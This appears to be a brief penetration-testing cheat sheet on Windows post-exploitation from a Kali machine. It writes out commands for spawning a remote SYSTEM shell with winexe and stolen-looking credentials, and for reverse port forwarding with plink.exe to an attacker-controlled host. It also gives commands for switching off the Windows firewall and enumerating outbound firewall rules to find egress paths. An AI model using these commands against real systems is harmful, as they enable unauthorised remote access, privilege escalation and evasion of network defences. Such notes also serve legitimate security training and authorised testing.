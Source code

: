 
## Use winexe

In kali there is winexe tool that allows running remote commands on windows

```bash
#to spawn remote cmd SYSTEM shell
winexe -U 'admin%password123' --system //192.168.1.xxx cmd.exe
```

## Port Forwarding from Windows

* Sometimes internal vulnerable ports need to be forwarded to Kali. For example for port 445 with SMB
* use `plink.exe`
* on kali enable root login on ssh `vim /etc/ssh/sshd_config` PermitRootLogin yes. Then `service ssh restart`
* ssh must be running
* Run forwarding `plink.exe root@192.168.1.10 -R 445:127.0.0.1:445` where first port is dest and second is source and ip source,
* now  use any tools and target `127.0.0.1:445` on kali machine like `winexe`


## Firewall tricks

* Shut off firewall
`netsh advfirewall set allprofiles state off`

* Get all FW rules

`Get-NetFirewallRule`


* Get firewall rules for blocking outbound

```
powershell -c "Get-NetFirewallRule -Direction Outbound -Enabled True -Action Block |
Format-Table -Property 
DisplayName, 
@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}}, @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
Enabled,
Profile,
Direction,
Action"
```

* Get Allow exceptions

```
powershell -c Get-NetFirewallRule -Direction Outbound -Enabled True -Action Allow

```
